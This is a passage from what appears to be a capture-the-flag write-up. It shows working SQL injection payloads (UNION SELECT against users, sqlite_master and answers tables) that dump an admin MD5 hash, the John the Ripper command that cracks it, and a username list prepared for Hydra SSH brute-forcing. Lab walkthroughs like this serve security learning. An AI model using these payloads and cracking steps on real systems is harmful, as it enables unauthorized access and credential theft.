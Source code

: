 ```
history ~ $ python3 web.py '0" UNION SELECT 1,username,password,4 FROM users-- -'
{"message": {"id": 1, "version": "admin", "released_date": "0c090c365fa0559b151a43e0fea39710", "downloads": 4}}
```

The output shows that we have a username called `admin` with password hash `0c090c365fa0559b151a43e0fea39710`.    
Let's check for any other user that is not `admin`:

```
history ~ $ python3 web.py '0" UNION SELECT 1,username,password,4 FROM users WHERE username != "admin"-- -'
{"message": "Invalid version!"}
```

And it gives error, so there are no more users.    
I will save `admin:0c090c365fa0559b151a43e0fea39710` in the file `hash` and crack it with `john`:

```
history ~ $ john hash --wordlist=/opt/wordlists/rockyou.txt --format=raw-md5
Created directory: /home/s0ck37/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
denjanjade122566 (admin)
1g 0:00:00:00 DONE (2023-07-29 01:05) 1.694g/s 14713Kp/s 14713Kc/s 14713KC/s denlanie..denize2
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

And we obtain the clear text password for `admin`: `denjanjade122566`.    
However we can not ssh with that credentials, so let's keep enumerating the database.    
We will dump the structure of the table `answers`:

```
history ~ $ python3 web.py '0" UNION SELECT 1,2,sql,4 FROM sqlite_master WHERE type!="meta" AND sql NOT NULL AND name ="answers"-- -'
{"message": {"id": 1, "version": 2, "released_date": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "downloads": 4}}
```

We can see there is a field called `answer`.

```
history ~ $ python3 web.py '0" UNION SELECT 1,2,answer,4 FROM answers-- -'
{"message": {"id": 1, "version": 2, "released_date": "Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "downloads": 4}}
```

And we can see that a user called `Thomas Keller` is answering to a user called `Mike`.    
Now we have 2 users that we can try login to ssh with the password cracked before.    
I will write in a file the potential users to try with `hydra`.

```
history ~ $ cat users.txt
mike
thomas.keller
thomas
tkeller
t.keller
keller
keller.t
```
